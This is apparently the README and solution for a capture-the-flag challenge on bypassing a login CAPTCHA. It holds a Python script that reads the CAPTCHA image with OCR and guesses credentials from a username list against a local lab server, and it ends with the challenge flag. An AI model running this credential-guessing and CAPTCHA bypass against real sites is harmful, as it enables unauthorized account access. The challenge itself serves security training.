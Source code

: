 ## Captcha bypass Challenge

## Run the below commands to get Started after cloning the repo
```
docker-compose up
```
Server will start listening on port 4447.

## Solution

On visiting the home page(http://localhost:4447), In the chall desc, there will be hint that "I have a list of usernames and password(which is same) for guessing the creds but not able to bypass the captcha. Can you please help"

1. On Sign-in page, user has to log in after bypassing the captcha.
2. Once the users log in, after inspecting the home page, user will get the flag
3. Note that the username and password changes every 3 min from the given list.

Below is the payload to bypass the captcha
```
import requests as req
import subprocess


def getCaptcha(session):
	
	res = session.get("http://localhost:8080/captcha")
	file  = open("captcha.jpeg","wb")
	file.write(res.content)
	file.close()
	subprocess.run(["tesseract","./captcha.jpeg","./test"])
	file  = open("./test.txt","r")
	captchaString = file.read()
	file.close()
	print(captchaString.strip())
	return captchaString.strip()
	



def login():
	file  = open("./top100usernames.txt","r")
	for userName in file.readlines():
		session = req.Session()
		captcha = getCaptcha(session)
		#userName="ARCHIVIST"
		data = {'userName':userName.strip(),'password':userName.strip(),'captcha':captcha}
		res = session.post("http://localhost:8080/submit",data)
		serverResponse = res.text
        #print(serverResponse)
        #print("Home" in serverResponse)
		if("Home" in serverResponse):
			print("Got the Creds")
			print(userName)
			break


```

### Ref:
- https://www.bugcrowd.com/blog/guest-blog-breaking-bugcrowds-captcha-pwndizzle/

## Flag
Flag{mSRQn7vjmiBSCBFuVJKd_not_so_effective_captcha}